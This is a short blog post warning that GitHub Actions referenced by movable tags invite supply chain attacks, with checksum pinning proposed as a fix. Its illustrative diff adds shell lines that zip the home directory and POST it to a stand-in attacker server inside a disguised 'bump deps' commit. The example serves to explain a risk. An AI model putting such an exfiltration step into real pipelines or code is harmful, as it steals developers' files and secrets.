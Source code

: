 ```yaml
---
date: 20240510
---
```


# GitHub Actions beg for a supply chain attack

When the GitHub Actions runner sees

```yaml
- name: Clone repository
  uses: actions/checkout@v4
```

it `git clone`s the `checkout` repository of the `actions` user/organization on
GitHub and then switches to the git tag named `v4`. The `actions` org is
maintained by GitHub staff, so we trust it to be secure and well-behaved.

Recently though, a cool new framework is taking off. It's called `foo`. Your
company decides to build a project with it and one of your tasks in the current
sprint is to set up a CI pipeline. Fortunately, the open-source community
delivers once again; you quickly discover that somebody has already created an
Action to make setup easy:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
```

Some time later `alice` stops maintaining the `setup-foo` action, but she wants
the Action to live on, so she appoints a new friendly person who's been around
the repo for a while and contributed a few PRs. That's how `malloy` becomes the
maintainer of `setup-foo`.

Some time later, `malloy` makes a new release of `setup-foo` with the following
code:

```diff
 #!/usr/bin/env sh
 echo "imagine there is shell code here"
+cd ~ && zip -r nothing_really.zip .
+curl \
+  --request POST https://totally-legit-server.ru \
+  --form "file=@$HOME/nothing_really.zip"
+cd -
 echo "legit shell code"
 echo "more legit shell code"
```

The change is introduced in a commit with message "bump deps" that removes 6969
and adds 2137 lines of code to many files, mostly `package-lock.json`. Then
`malloy` releases this new version as `v2.1`:

```console
git commit -m "bump deps" && git push origin master
git tag v2.1
```

and then he moves the `v2` tag to point to the same commit as `v2.1`, [**just
like GitHub recommends**][gh]:

```console
git tag --delete v2 # delete tag locally
git push origin :v2 # delete tag on the remote
git tag v2
git push --tags
```

It's a Friday night. Hundreds of thousands of nightly builds run, in thousands
of repositories, including private ones.

No one notices for a few days.

---

My knowledge of the cybersecurity landscape is very basic, but I suppose a
solution could be for GitHub to deprecate the current way of using external
actions, and require us to provide a checksum:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
  sha256: ea3a03b4971eeb62730e1de238225cc4e6145f0eb50ad28b1379f2a2ee71e16e
```

The problem with the above is twofold:

- First and foremost, it no longer looks as sexy.
- Realistically, who checks the diff when bumping the dependencies?

---

I maintain the `subosito/flutter-action` (it should be named `setup-flutter`).
If you enjoyed the read, consider [sending me a few bucks for coffee][sponsor].
I pinky promise to never perform a supply chain attack on you.

[gh]: https://docs.github.com/en/actions/creating-actions/about-custom-actions#using-tags-for-release-management
[sponsor]: https://github.com/sponsors/bartekpacia
